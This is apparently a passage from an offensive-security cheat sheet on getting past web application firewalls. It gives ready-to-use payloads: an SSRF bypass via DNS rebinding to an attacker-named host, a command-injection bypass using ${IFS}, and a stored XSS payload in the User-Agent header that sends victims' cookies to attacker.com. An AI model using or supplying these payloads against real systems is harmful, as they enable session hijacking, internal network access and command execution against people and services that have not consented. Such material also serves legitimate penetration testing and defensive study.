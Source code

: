 - WAFs **fail to analyze JSON queries**.  

### **🔥 Universal SSRF Bypass**  

>Most WAFs block:  

```bash
curl http://127.0.0.1/
```  

>**Bypass using `DNS Rebinding`:**  

```bash
curl http://attacker.com.xip.io
```  

- The **DNS resolves back** to `127.0.0.1`.

### **🔥 Universal Command Injection Bypass**  

>Most WAFs block:  

```bash
; ls /
```  

>**Bypass using `${IFS}` Trick:**  

```bash
ls${IFS}/
```  

- WAFs **fail to block whitespace (`IFS`) abuse**.  

----  

# Other Obfuscating Targets  

## **Obfuscating XSS Payload in `User-Agent` HTTP Header to Bypass Filters & WAF**  

>If a **web application stores the `User-Agent` header in the database** on the **user profile**, you can **inject an XSS payload** into it.  
>**WAF rules or input validation may block direct injection**.  
>Below are techniques to **bypass security filters** using different obfuscation methods.  

## **🔹 1️⃣ Basic Payload (Direct Injection)**  

>If there is **no input filtering**, you can try injecting the payload directly:  

```
User-Agent: <img src=x onerror="fetch('http://attacker.com/log?c='+document.cookie)">
```  

>If stored and reflected on a profile page without sanitization, **XSS may executes when the profile is viewed**.
